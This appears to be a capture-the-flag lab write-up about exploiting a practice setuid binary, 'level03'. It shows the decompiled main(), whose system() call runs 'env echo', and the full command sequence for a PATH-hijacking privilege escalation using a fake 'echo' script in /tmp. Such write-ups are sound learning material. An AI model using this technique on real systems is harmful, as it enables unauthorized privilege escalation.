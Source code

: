 Date: 9/10/2024

Entry:

Today's task was to analyze the file `./level03`.

After examining the file permissions `-rwsr-sr-x 1 flag03 level03 8627 Mar 5 2016 level03`, we noted the presence of the `suid` and `sgid` (it allowed us to execute program as owner user).

Using `scp`, we opened the program in `Ghidra` and started analyzing the binary.

We successfully recovered the `main()` function:
```
void main(void)
{
  __gid_t __rgid;
  __uid_t __ruid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  system("/usr/bin/env echo Exploit me");
  return;
}
```

We attempted to modify the variable values using `gdb`, which was available on the virtual machine.
However, our efforts were fruitless because `gdb` was running with our user’s privileges, so despite several hours of attempts, we did not achieve results.

We then tried to replace the `echo` command with our custom script that contained `getflag`. This was the correct approach, as after executing the program, we successfully retrieved our flag.

Commands used:
`echo -e '#!/bin/sh\n/bin/getflag' > /tmp/custom_program.sh`
`chmod +x /tmp/custom_program.sh`
`export PATH=/tmp:$PATH`
`echo $PATH`
`which custom_program.sh`
`mv /tmp/custom_program.sh /tmp/echo`
`env echo "Test"` -> `Check flag.Here is your token :Nope there is no token here for you sorry. Try again :)`
`./level03`

Once again, the solution was right under our noses. :)